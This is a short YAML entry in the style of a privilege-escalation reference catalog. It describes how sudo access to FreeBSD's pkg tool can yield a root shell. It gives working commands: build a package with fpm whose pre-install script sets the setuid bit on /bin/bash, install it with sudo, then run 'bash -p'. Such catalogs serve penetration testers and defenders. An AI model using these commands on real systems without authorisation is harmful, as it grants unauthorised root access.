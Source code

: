 ```yaml
---
functions:
  sudo:
    - description: |
        It runs commands using a specially crafted FreeBSD package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'chmod +s /bin/bash' > $TF/x.sh
        fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
        ```
      code: |
        ```
        sudo pkg install -y --no-repo-update ./x-1.0.txz
        /bin/bash -p
        ```
---
```

